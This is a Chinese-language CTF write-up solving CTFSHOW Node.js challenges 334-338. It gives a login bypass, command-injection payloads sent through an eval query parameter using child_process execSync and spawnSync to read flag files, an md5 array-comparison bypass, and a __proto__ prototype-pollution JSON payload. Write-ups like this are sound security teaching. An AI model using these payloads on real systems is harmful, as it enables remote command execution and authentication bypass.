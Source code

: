 ```yaml
---
title: CTFSHOW nodejs 334-338
date: 2024-08-05 16:36:39
permalink: /pages/a11a87/
categories:
  - wp
tags:
  - nodejs
  - ctfshow
  - wp
  - ctf
author: 
  name: the0n3
  link: https://the0n3.top
---
```


nodejs是跨平台的 JavaScript 后端语言，用于开发服务器端应用程序。它能够执行文件读取、数据库查询等服务器端操作

参考文章

[CTFSHOW-nodejs](https://blog.csdn.net/Yb_140/article/details/124510337)
[node官方文档](https://nodejs.cn/api/)
[node官方文档--子进程](https://nodejs.cn/api/child_process.html#child-process)

## web 334 审计

下载文件添加zip扩展名，解压得到两个js文件

user.js里存储了用户名，密码

![user](/medias/show-nodejs/1.png)

login.js里存放了登录的操作过程

```js
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
```


关键语句，登录的用户名不能等于“CTFSHOW”,登录用户名的大写等于存放的用户名“CTFSHOW”，密码等于存放的密码“123456”


所以，name=ctfshow，pwd=123456

## web 335 命令执行

查看源码，?eval，提示get传参执行命令，类似php的eval函数

![exec](/medias/show-nodejs/2.png)

看了这个文档，带exec的应该都能直接执行命令吧(稍加思考)

```
# payload1，成功
?eval=require("child_process").execSync("ls;tac fl00g.txt");
# payload2，失败
?eval=require("child_process").exec("ls");
```


execSync可以执行，exec不能直接执行命令的原因，execSync 是同步函数，它可以直接在 require 语句后调用，并立即返回执行结果，可以直接在一行代码中调用它来执行命令并获取输出。那么同进程的其他命令执行函数也是如此？

## web 336 命令执行

上一题payload打不通了。换个函数，spawnSync()，不要直接像上一题一样写一大坨命令例如：

```
spawnSync("ls;tac flag.txt")
```

在这函数规定了似乎不允许

![spawnSync](/medias/show-nodejs/3.png)

这个函数执行不能直接输出到页面，用stdout,toString()方法打印出
来

```
?eval=require("child_process").spawnSync("tac",['fl001g.txt']).stdout.toString();
```

## web 337

关键代码，接受参数a，b。类似php的一个md5比较，数组绕过

```js
var a = req.query.a;
var b = req.query.b;
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    res.end(flag);
}
```

url?a[]=1&b[]=1


## web 338 原型链污染

查看routes目录下login.js源码

![login](/medias/show-nodejs/4.png)

补充：javascript中，**所有对象都继承自一个原型对象，原型对象增加新的属性时，其他对象都会继承**

```js
const user = {name:"cola"}
const tool = {tools:"Google"}
Object.prototype.lang = "Python"
console.log(tool.lang)
//现在，打印结果出现了tool对象不存在的属性lang，从原型对象那里继承得来
//Python
```

代码会通过copy函数，把请求的内容赋值给user对象，如果我们给__proto__原型对象添加一个新的属性来影响原型对象的属性继承，那么就可以达到secert对象的属性ctfshow='36dboy'的条件

![api](/medias/show-nodejs/6.png)

查看源码，登录接口需要传json数据

那这里就可以传一个json对象，{"__proto__":{"ctfshow":"36dboy"}}，这样就让secert继承到ctfshow=36dboy的属性